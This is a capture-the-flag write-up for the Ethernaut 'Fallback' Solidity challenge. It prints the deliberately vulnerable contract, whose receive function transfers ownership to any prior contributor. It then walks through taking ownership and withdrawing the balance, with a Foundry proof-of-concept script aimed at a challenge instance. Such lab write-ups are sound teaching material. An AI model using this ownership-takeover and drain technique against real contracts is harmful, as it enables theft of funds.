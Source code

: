 ```yaml
---
title: Fallback
---
```


Difficulty: ⭐

- How to send ether when interacting with an ABI

![Untitled](Fallback%209c93f3e046fa42eb834974a2469dec8c/Untitled.png)

- How to send ether outside of the ABI
- Converting to and from wei/ether units (see `help()` command)
- Fallback methods
  ![Untitled](Fallback%209c93f3e046fa42eb834974a2469dec8c/Untitled%201.png)
  ![Untitled](Fallback%209c93f3e046fa42eb834974a2469dec8c/Untitled%202.png)

  ```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.0;

  contract Fallback {

    mapping(address => uint) public contributions;
    address public owner;

    constructor() {
      owner = msg.sender;
      contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner {
          require(
              msg.sender == owner,
              "caller is not the owner"
          );
          _;
      }

    function contribute() public payable {
      require(msg.value < 0.001 ether);
      contributions[msg.sender] += msg.value;
      if(contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
      }
    }

    function getContribution() public view returns (uint) {
      return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
      payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
      require(msg.value > 0 && contributions[msg.sender] > 0);
      owner = msg.sender;
    }
  }
  ```

  1. Call the `contribute()` function with a value set to 1 wei.
  2. Call `senTransaction()` with 1 wei also to get ownership of the contract.
  3. Call `withdraw()` to extract the funds from the contract.
     This is frustrating to using the web console to interact with the contract. So I will try to redo the challenge but using foundry this time.
     Let’s start with the same template as before but with the new contract instance address:

  ```solidity
  // SPDX-License-Identifier: UNLICENSED
  pragma solidity ^0.8.13;

  import "forge-std/Script.sol";

  interface Callee {
  }

  contract POC is Script {
      Callee level0 = Callee(0xCe9D58330C2623e00018a10164399238723A4F01);
      function run() external {
          uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
          vm.startBroadcast(deployerPrivateKey);

          vm.stopBroadcast();
      }
  }
  ```

  It is stated that we have to :

  1. claim ownership of the contract
  2. reduce its balance to 0
     This time it’s easier to get the contract interface since we directly have access to the contract source code.

  ```solidity
  interface Callee {
    function owner() view external returns(address);
    function contribute() external payable;
    function withdraw() external;
    function getContribution() external view returns (uint);
  }
  ```

  This is the corresponding interface of the function we are going to utilize.
  From here, everything is quite simple. After a close look at the contract source code we came with the following PoC:

  ```solidity
  contract POC is Script {
      Callee level1 = Callee(0x7f584a9D74D461eFDaD062AA9AfEe9629b96c780);
      function run() external {
          uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
          vm.startBroadcast(deployerPrivateKey);

          console.logUint(level1.getContribution());
          console.logAddress(level1.owner());

          level1.contribute{value: 1}();
          (bool sent,bytes memory data) = address(level1).call{value: 1}("");
          require(sent, "Failed to sennd Ether");
          console.logBytes(data);

          console.logUint(level1.getContribution());

          level1.withdraw();

          console.logUint(level1.getContribution());
          console.logAddress(level1.owner());

          vm.stopBroadcast();
      }
  }
  ```
